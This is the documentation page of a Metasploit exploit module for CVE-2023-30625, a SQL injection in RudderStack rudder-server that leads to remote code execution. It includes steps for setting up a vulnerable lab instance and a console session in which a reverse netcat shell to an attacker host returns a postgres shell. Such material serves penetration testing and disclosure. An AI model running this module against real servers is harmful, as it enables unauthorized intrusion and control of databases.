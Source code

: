 ## Vulnerable Application

RudderStack is an open-source Customer Data Platform (CDP) that helps organizations collect,
unify, and route customer data to various destinations.
A Customer Data Platform is a software system that centralizes and manages customer data from multiple sources,
providing a unified view of customer interactions and behaviors.
RudderStack is an independent, stand-alone system with a dependency only on the database (PostgreSQL).
Its backend is written in Go with a rich UI written in React.js.

This Metasploit exploit module targets a SQL injection vulnerability (CVE-2023-30625) in RudderStack's `rudder-server`,
an open-source Customer Data Platform (CDP). The vulnerability affects versions of `rudder-server` before 1.3.0-rc.1.
By exploiting this flaw, an attacker can execute arbitrary SQL commands,
potentially leading to Remote Code Execution (RCE) since the `rudder` role in PostgresSQL has superuser permissions by default.
This issue was discovered and reported by GHSL team member @Kwstubbs (Kevin Stubbings).
Check [here](https://securitylab.github.com/advisories/GHSL-2022-097_rudder-server/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Clone the repository `git clone https://github.com/rudderlabs/rudder-server`
2. Switch to version 1.2.5 `cd rudder-server && git checkout v1.2.5`
3. At this step you'll need to obtain a workspace token from the RudderStack platform.
[Check](https://www.rudderstack.com/docs/get-started/rudderstack-open-source/data-plane-setup/docker/#workspace-token) for instructions.
4. After obtaining the workspace token adjust your `./build/docker.env` file.
5. Change `DEST_TRANSFORM_URL=http://d-transformer:9090` to `DEST_TRANSFORM_URL=http://transformer:9090` inside `./build/docker.env` file.
6. Finally run `docker compose up` at the root directory of the project git.

After these steps the rudder-server API will be expopsed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/multi/http/rudder_server_sqli_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`
6. You should get a shell.

## Options

### API_USER
The Rudder API basic authentication username (Default: 'key'). (Optional)

### API_PASS
The Rudder API basic authentication password. (Optional)

## Scenarios

```
msf6 > use exploit/multi/http/rudder_server_sqli_rce 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/http/rudder_server_sqli_rce) > set rhosts 192.168.1.20
rhosts => 192.168.1.20
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lport 4444
lport => 4444
msf6 exploit(multi/http/rudder_server_sqli_rce) > set ForceExploit true
ForceExploit => true
msf6 exploit(multi/http/rudder_server_sqli_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] Detected rudder version: Unknown
[*] Triggering RCE via crafted SQL query...
id
uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)

```
